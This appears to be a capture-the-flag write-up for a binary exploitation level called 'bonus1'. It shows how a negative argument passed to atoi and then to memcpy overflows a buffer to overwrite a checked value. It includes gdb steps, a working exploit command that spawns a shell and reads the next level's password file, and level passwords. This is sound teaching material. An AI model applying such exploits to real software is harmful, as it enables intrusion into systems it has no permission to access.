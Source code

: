 # Bonus1 - Exploit signed / unsigned types to bypass checks

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |
| bonus2 | `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus1
> Segmentation fault (core dumped)

~/bonus1 a
```

It takes a least one parameter.

Lets debug the binary

```shell
(gdb) info functions
0x08048424  main
```

See our assembly interpretation in [source file](../source.c)

The usage is: "./bonus1 (number < 10) string"

We can see the number is evaluated twice. It has to be smaller than 10.
Then this number is multiplied by 4.

The second comparison, just after a `memcpy`, checks the same number equals 1464814662.

The number is stored in `esp+0x3c` and the `memcpy` destination is stored in `esp+0x14`

```shell
gdb-peda$ p 0x3c - 0x14
  $2 = 0x28
gdb-peda$ p/d0x28
  $3 = 40
```

It means there is 40 bytes between them.
Unfortunately, we can not write directly more than 36 bytes (9 \* 4) in `memcpy`.

To overwrite the number, we have to write 40 characters + 4 bits for the value `0x574f4c46` => 44 bits.

As `memcpy` takes a `size_t` (unsigned) and `atoi` returns an int, we can use negatives values, to pass the first comparison and then override the number value.

We need 44 chars. Lets cast -44 as unsigned int and divide by 4 the result.

```shell
gdb-peda$ p /u -44
  $4 = 4294967252
gdb-peda$ p /d 4294967252 / 4
  $5 = 1073741813
```

Finally we can build the exploit and get the pass.

```shell
~/bonus1 -1073741813 `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
$ cat /home/user/bonus2/.pass
  579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

---

## Sources

### C

- [Man atoi](https://linux.die.net/man/3/atoi)
- [Man memcpy](https://linux.die.net/man/3/memcpy)
- [Man execl](https://linux.die.net/man/3/execl)
